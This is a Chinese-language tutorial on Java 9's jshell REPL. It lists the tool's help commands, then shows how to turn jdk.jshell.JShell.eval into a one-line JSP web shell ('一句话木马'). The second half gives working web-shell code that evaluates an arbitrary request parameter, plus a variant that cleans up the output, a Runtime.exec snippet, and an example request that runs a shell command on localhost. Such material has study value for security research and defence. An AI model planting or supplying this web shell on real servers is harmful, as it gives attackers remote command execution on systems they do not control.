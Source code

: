 # JShell

从`Java 9`开始提供了一个叫`jshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，在`jshell`中我们不再需要编写类也可以执行Java代码片段，开发者可以像`python`和`php`一样在命令行下愉快的写测试代码了。

命令行执行`jshell`即可进入`jshell`模式：

![image-20191219163053592](../../images/image-20191219163053592.png)

输入:`/help`可以查看具体的命令:

```bash
|  键入 Java 语言表达式, 语句或声明。
|  或者键入以下命令之一:
|  /list [<名称或 id>|-all|-start]
|  	列出您键入的源
|  /edit <名称或 id>
|  	编辑按名称或 id 引用的源条目
|  /drop <名称或 id>
|  	删除按名称或 id 引用的源条目
|  /save [-all|-history|-start] <文件>
|  	将片段源保存到文件。
|  /open <file>
|  	打开文件作为源输入
|  /vars [<名称或 id>|-all|-start]
|  	列出已声明变量及其值
|  /methods [<名称或 id>|-all|-start]
|  	列出已声明方法及其签名
|  /types [<名称或 id>|-all|-start]
|  	列出已声明的类型
|  /imports 
|  	列出导入的项
|  /exit 
|  	退出 jshell
|  /env [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>] ...
|  	查看或更改评估上下文
|  /reset [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>]...
|  	重启 jshell
|  /reload [-restore] [-quiet] [-class-path <路径>] [-module-path <路径>]...
|  	重置和重放相关历史记录 -- 当前历史记录或上一个历史记录 (-restore)
|  /history 
|  	您键入的内容的历史记录
|  /help [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /set editor|start|feedback|mode|prompt|truncation|format ...
|  	设置 jshell 配置信息
|  /? [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /! 
|  	重新运行上一个片段
|  /<id> 
|  	按 id 重新运行片段
|  /-<n> 
|  	重新运行前面的第 n 个片段
|  
|  有关详细信息, 请键入 '/help', 后跟
|  命令或主题的名称。
|  例如 '/help /list' 或 '/help intro'。主题:
|  
|  intro
|  	jshell 工具的简介
|  shortcuts
|  	片段和命令输入提示, 信息访问以及
|  	自动代码生成的按键说明
|  context
|  	/env /reload 和 /reset 的评估上下文选项
```

## 使用JShell执行代码片段

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

**`jshell.jsp`一句话木马示例:**

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src"))%>
```

程序执行后会输出一些不必要的信息，如果有强迫症可以修改为：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

然后我们需要编写一个执行本地命令的代码片段：

```java
new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes())
```

`Java 9`的`java.io.InputStream`类正好提供了一个`readAllBytes`方法，我们从此以后再也不需要按字节读取了。

浏览器请求：[http://localhost:8080/jshell.jsp?src=new%20String(Runtime.getRuntime().exec(%22pwd%22).getInputStream().readAllBytes())](http://localhost:8080/jshell.jsp?src=new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes()))

程序执行结果：

![image-20191219163053592](../../images/image-20191219170956644.png)